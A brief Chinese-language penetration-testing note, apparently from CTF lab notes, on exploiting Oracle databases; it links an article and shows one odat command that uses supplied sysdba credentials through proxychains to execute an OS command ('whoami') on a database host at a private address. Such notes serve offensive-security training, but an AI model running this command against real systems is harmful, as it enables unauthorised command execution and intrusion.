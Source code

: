 ## 文章

[渗透过程中Oracle数据库的利用 _ Loong716](F:\LocalCTF\渗透过程中Oracle数据库的利用 _ Loong716.html)

## 工具

odat（kali中使用）

使用例子

```bash
proxychains odat dbmsscheduler -s 172.22.14.31 -p 1521 -d ORCL -U xradmin -P fcMyE8t9E4XdsKf --sysdba --exec 'whoami'
```

